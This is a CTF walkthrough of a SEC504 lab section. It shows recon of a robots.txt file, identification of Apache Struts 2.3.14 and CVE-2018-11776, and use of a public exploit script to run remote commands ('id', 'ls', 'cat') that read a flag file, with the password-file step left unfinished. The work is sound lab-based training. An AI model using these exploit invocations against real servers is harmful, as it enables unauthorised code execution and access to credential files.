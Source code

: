 # SEC504 Ranges.io CTF - Walkthrough

This document contains my personal step-by-step solutions for the **orders.issplaylist.com** section challenges.  
I’ve written it as if I am walking someone through how I solved each challenge, including the reasoning, challenges I faced, and how I worked through them.  

---

## Search Engine Restriction
**Question:**  
Retrieve the search engine restriction resource on the web server orders.issplaylist.com. Enter the flag.

**Steps Taken:**
At first this question seemed a little tricky, but the hint was in the wording: “search engine restriction.” I immediately thought about how websites tell search engines what to index or not index, which is done using the `robots.txt` file. With that in mind, I decided to directly check for the file by typing in the URL:  

```
https://orders.issplaylist.com/robots.txt
```

Sure enough, the file was there, and it revealed the flag.  

**Flag:**  
`NetWars{ValuableReconData}`

---

## Apache Struts Version
**Question:**  
Using the information on the orders.issplaylist.com website, identify the version of Apache Struts in use.

**Steps Taken:**
Once again, I went back to the `robots.txt` file because these files often contain directory disallows or hints about what the site is running. As I scrolled through the contents, I found a very telling line:  

```
Disallow: struts2-showcase-2.3.14
```

This immediately told me the Apache Struts version in use was **2.3.14**.  

**Answer:**  
`2.3.14`

---

## Vulnerability Research
**Question:**  
Research the version of Apache Struts using in-game assets. Which CVE entry describes a known vulnerability for this version of Apache Struts?

**Steps Taken:**
To answer this, I used **ClippedBin**, the OSINT resource provided in the CTF. I typed “struts” into the search bar and scanned the results. Among them was an exploit post, and at the top of that post in the comment area, I found the CVE reference. This CVE tied directly to the Apache Struts version I had identified earlier.  

**Answer:**  
`CVE-2018-11776`

---

## Exploit Identification
**Question:**  
Using in-game assets, identify an exploit left behind by the attackers. Enter the name of the exploit code author (first and last).

**Steps Taken:**
Still working within **ClippedBin**, I opened the exploit code that corresponded to CVE-2018-11776. Right at the top of the script, the author had left their name in the comments. That’s how I was able to clearly identify the person behind it.  

**Answer:**  
`Mazin Ahmed`

---

## Vulnerability Exploitation
**Question:**  
Use the exploit to gain access to the orders.issplaylist.com server. Retrieve the flag in the `/opt/tomcat/webapps/ROOT` directory.

**Steps Taken:**
This step took a lot more trial and error. I started by copying the exploit code I had found and saved it as `struts-exploit.py`. To make sure it was executable, I ran:  

```bash
chmod 755 struts-exploit.py
```

I first checked the script’s usage instructions with:  

```bash
./struts-exploit.py -h
```

I tried running it directly against the base site URL, but it came back saying the target was not vulnerable. For a moment I thought maybe I had gone down the wrong path, but then I realized I was probably missing a critical detail.  

After googling more about the exploit script, I found out that it mentioned needing a **`.action` endpoint**. Sure enough, in the commented area of the exploit script in **ClippedBin** there was the target URL left by the previous attackers:  

```
http://orders.issplaylist.com/showcase/help.action
```

That was the missing piece. I re-ran the exploit, but this time against the `.action` endpoint:  

```bash
./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c id --exploit
```

This time, it worked! The output confirmed that the server was vulnerable, and it gave me the command execution response showing I was running as the `tomcat` user:  

```
uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat)
```

Now that I had remote code execution, I wanted to locate the flag in `/opt/tomcat/webapps/ROOT`. At first, I instinctively tried to use `cd` to change into the directory, but I quickly remembered that since this wasn’t an interactive shell, that wouldn’t work. Instead, I needed to reference the path directly in my command.  

So I ran:  

```bash
./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c 'ls -l /opt/tomcat/webapps/ROOT/' --exploit
```

The output listed several files, and among them was the one I was after: `Flag.txt`. The permissions showed that it was readable, so all I had to do was use `cat` to dump its contents.  

```bash
./struts-exploit.py -u https://orders.issplaylist.com/showcase/help.action -c 'cat /opt/tomcat/webapps/ROOT/Flag.txt' --exploit
```

The exploit ran successfully, and the flag was printed out:  

```
NetWars{SuccessfulExploit}
```

That moment was a big win — it felt like everything clicked after the earlier false start.  

**Flag:**  
`NetWars{SuccessfulExploit}`

---

## Web Password File
**Question:**  
Using the same exploit access, examine the file used for storing encrypted passwords in the web root (`/opt/tomcat/webapps/ROOT/`). Submit the flag.

**Steps Taken:**  
At this point I knew the process: use the exploit to remotely execute commands and carefully enumerate files in the target directory. I ran another listing of `/opt/tomcat/webapps/ROOT/` to identify which file contained the password data, with the goal of reading it in the same way I retrieved the flag file. This step was about persistence and methodically checking each file for clues, just like I had done before.  

---


